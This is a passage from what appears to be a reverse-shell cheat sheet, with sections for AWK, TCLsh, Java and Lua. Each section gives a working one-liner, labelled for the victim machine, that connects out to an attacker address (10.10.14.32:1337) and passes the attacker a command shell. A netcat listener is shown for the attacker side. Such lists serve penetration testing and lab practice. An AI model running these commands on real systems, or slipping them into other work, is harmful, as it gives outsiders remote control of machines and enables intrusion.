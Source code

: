 #### AWK <a name='awk'></a>
```bash
# on the victim machine
# syntax: awk 'BEGIN {s = "/inet/tcp/0/{attacker IP}/{port}"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
awk 'BEGIN {s = "/inet/tcp/0/10.10.14.32/1337"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### TCLsh <a name='tsh'></a>
```bash
# on the victim machine
# syntax: echo 'set s [socket {attacker IP} {port}];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
echo 'set s [socket 10.10.14.32 1337];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh

# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### Java <a name='java'></a>
```bash
# on the victim machine
# syntax: r = Runtime.getRuntime()
# p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{attacker IP}/{port};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
# p.waitFor()
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.32/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

# on the attacker machine
# syntax: nc -lvnp {port}
nc -lvnp 1337
```

#### Lua <a name='lua'></a>
```bash
# on the victim machine
# 1.Only On Linux syntax: lua -e "require('socket');require('os');t=socket.tcp();t:connect('{attacker IP}','{port}');os.execute('/bin/sh -i <&3 >&3 2>&3');"
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.14.32','1337');os.execute('/bin/sh -i <&3 >&3 2>&3');"

# 2.On Both linux and windows:lua5.1 -e 'local host, port = "{attacker IP}", {port} local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()' 
lua5.1 -e 'local host, port = "10.10.14.32", 1337 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'

# on the attacker machine
# syntax: nc -lvnp {port}
```